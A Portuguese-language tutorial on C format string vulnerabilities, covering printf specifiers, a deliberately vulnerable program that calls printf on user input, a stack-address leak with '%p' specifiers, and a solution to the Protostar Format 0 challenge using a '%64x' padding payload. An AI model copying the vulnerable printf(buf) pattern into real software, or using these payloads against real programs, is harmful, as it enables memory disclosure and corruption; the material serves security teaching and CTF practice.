 ﻿# WTF is Format String?

## Introdução
Nesse **wtf** iremos entender o que é format string, como explorar as vulnerabilidades e como fazer com que o seu código não apresente esse problema.
Um format string é bem simples, ela é uma string ASCII com texto e parâmetros de formato, a complexidade irá girar em torno de como você se aproveita dos erros cometidos no código alheio e como essas brechas são deixadas por programadores, para entender melhor podemos usar um código de exemplo.

    printf("Media final da turma: **%d**\n", **2**);

Temos então uma string ascii com um parâmetro de formato **%d** e um valor sendo passado, que é o **2**(que feio, turma), o retorno desse código seria o seguinte:
```bash
$ Media final da turma: 2
```
Existem diversos desses parâmetros em C, segue uma tabela:

|Parâmetro|Significado|Exemplo|
|--|-----|-----|
|s   |Cadeia de caracteres     |Essa eh uma frase     |
|c   |Caracter     |d     |
|d   |Inteiro decimal com sinal     |20     |
|f   |Número decimal com ponto flutuante     |20.415    |

Isso não chega nem perto da tabela completa, são só alguns exemplos de como os parâmetros funcionam, o ponto aqui é que esses parâmetros vão requisitar dados da pilha.

## Vulnerabilidade

Para entender como a vulnerabilidade vai acontecer, vamos saber também como o compilador vai deixar passar essa falha(não é culpa do coitado), vamos usar como exemplo o printf que é o mais comum, o printf tem um número variável de argumentos que são passados, então caso nosso código fosse esse:

    printf("Media da turma: %d%d\n", 2);

**Ouuch!** O professor dá 2 pra turma e faz uma cagada dessas.

Mas estamos seguros já que o compilador vai acusar um erro nessa linha...não vai não, sério, tenta ai, escreve o código e vê o retorno, no meu caso foi:
```bash
$ Media da turma: 2-1219883224
```
Para o compilador entender esse erro, ele deveria entender como a função printf() funciona e o significado dos format strings, e o format string é gerado durante a execução do programa, então não tem como o compilador pegar esse tipo de coisa.

## Explorando algo

Beleza, sabemos o que é format string e sabemos que o compilador não é onisciente, mas vamos explorar algo pra valer -na verdade vamos só usar um exemplo imbecil para entender melhor-, então segue o código vulnerável:

    #include <stdio.h>
    #include <string.h>
    
    int main(int argc, char** argv){
		char buf[50];
		strncpy(buf, argv[1], 55);
		printf(buf);
		return 0;
	}	

Então no terminal podemos executar o código:
```bash
$ ./a.out cachorro
$ cachorro
```
Tudo certo então? Errado.

Nesse código, um argumento que passamos pelo terminal será imprimido na tela, mas lembra que a função printf tem uma quantidade variável de argumentos? Então vamos passar duzentos argumentos!
```bash
$ ./a.out "%p %p %p %p"
$ 0x7ffeecf8a572 (nil) 0x7ffeecf88b80 0x7
```
Ok, foram apenas quatro que passamos, mas olha ai, imprimos os endereços da pilha.

## Matando um chall

***Protostar: Format 0***

Então é hora de por em prática e assassinar um chall, nesse aqui temos o código:


    #include <stdlib.h>
    #include <unistd.h>
    #include <stdio.h>
    #include <string.h>
    
    void vuln(char *string)
    {
      volatile int target;
      char buffer[64];
    
      target = 0;
    
      sprintf(buffer, string);
      
      if(target == 0xdeadbeef) {
          printf("you have hit the target correctly :)\n");
      }
    }
    
    int main(int argc, char **argv)
    {
      vuln(argv[1]);
    }

O chall também nos diz que o desafio deve ser feito com menos de 10 bytes de entrada.

O que rola aqui, é que o programa recebe uma entrada nossa pelo terminal, declara uma variável buffer de 64 bytes, declara uma variável target e seta ela em 0 e faz uma condicional pra variável target, essa que nunca será igual a 0xdeadbeef, e o programa encerra.
Ela nunca seria igual, mas podemos fazer algo para sobrescrever esse buffer pelo terminal, alguns veriam esse chall e fariam um BufferOverflow, outros veriam a vulnerabilidade de format string, no nosso caso vamos explorar com format string.

Com bufferoverflow, passariamos 64 bytes e depois sobrescreveriamos o target, já que temos o código fica fácil identificar a sequência do que vamos sobrescrever, certo?

O legal desse exemplo é que resolver com bufferoverflow ou format string tanto faz, é praticamente a mesma coisa que vamos fazer, e nesse caso, nós vamos fazer bufferoverflow, já que ainda temos que passar os 64 bytes da variável e escrever no target depois, pra fazer isso com format string podemos fazer isso aqui:

```bash
$ ./f0 `python -c 'print "%64x"'`
```
**%x** em format string é pra hexadecimal, então estamos enviando 64 bytes em hexadecimal para o programa, então vamos escrever todos no buffer, após isso vamos usar [endianness](https://en.wikipedia.org/wiki/Endianness) para sobrescrever o target para 0xdeadbeef, simplesmente escrevemos:

```bash
$ ./format0 `python -c 'print "%64x\xef\xbe\xad\xde"'`
```

E temos o retorno:

```bash
$ you have hit the target correctly :)
```
É muito comum nos challs, esse tipo de desafio ter alguma função pra te retornar a flag, então você exploraria o format string no servidor alvo e ele imprimiria na sua tela a flag, após entender como funciona, sempre é bom praticar e pesquisar write-ups sobre, pois existe uma variedade de formas que isso pode ser implementado em um chall, bons estudos!
